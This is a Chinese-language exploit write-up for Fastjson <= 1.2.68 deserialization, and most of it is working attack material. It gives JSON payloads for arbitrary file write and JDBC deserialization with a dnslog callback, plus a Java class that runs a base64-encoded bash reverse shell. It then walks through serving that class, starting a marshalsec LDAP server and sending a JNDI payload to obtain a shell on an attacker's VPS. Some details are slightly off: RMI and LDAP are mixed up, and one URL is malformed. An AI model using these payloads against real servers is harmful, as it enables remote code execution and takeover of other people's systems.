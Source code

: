## 漏洞概述

在Fastjson<=1.2.68的版本中，通过新的Gadgets绕过autoType开关，在autoType关闭的情况下仍然可以绕过黑白名单防御机制，通过反序列化漏洞在服务器上执行任意代码

## 影响范围

Fastjson爆出的绕过方法可以通杀 1.2.68 以下所有版本

```http
Fastjson <= 1.2.68
```

## POC

任意文件写入POC

```http
{"x":{"@type":"java.lang.AutoCloseable","@type":"sun.rmi.server.MarshalOutputStream","out":{"@type":"java.util.zip.InflaterOutputStream","out":{"@type":"java.io.FileOutputStream","file":"/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.282.b08-1.el7_9.x86_64/jre/lib/charsets.jar","append":false},"infl":{"input":"xxx"},"bufLen":1048576},"protocolVersion":1}}

{"x":{"@type":"java.nio.charset.Charset","val":"500"}}
```

JDBC反序列化POC

```http
{"@type":"java.lang.AutoCloseable", "@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"172.20.64.40","portToConnectTo":3306,"url":"jdbc:mysql://172.20.64.40:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":"3306","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","user":"yso_URLDNS_http://ahfladhjfd.6fehoy.dnslog.cn","PORT.1":"3306","HOST.1":"172.20.64.40","NUM_HOSTS":"1","HOST":"172.20.64.40","DBNAME":"test"}}
```

## 漏洞利用

1、编译POC

将代码编写为class类文件，并将生成的类文件放在web目录下，启动web服务

```java
public class exec{
    public static void main(String[] args) throws Exception
    {
        Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAveC54LngueC8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}").waitFor();
    }
}
//base64 是要执行的命令
```

```bash
#编译
javac POC.java
```

```bash
python3 -m http.server 8001
```

2、配置RMI环境

用marshalsec项目，启动一个RMI服务器，监听9999端口，并加载远程类

下载地址：https://github.com/mbechler/marshalsec 

安装maven

```bash
yum install -y maven 
```

切换到marshalsec目录下使用maven进行打包，

```bash
mvn clean package -DskipTests
```

3、开启监听

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://x.x.x.x:9999/#POC
```

备注：http://xx.xx.xx.xx:9999/#POC 是放Java类的地址，类只要写名字即可，不需要加.class，其次类名前要加#

4、反弹shell

把网站json数据包替换，然后发包，VPS即可收到

```http
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap:// http://xx.xx.xx.xx:9999/#POC ","autoCommit":true}}}
```
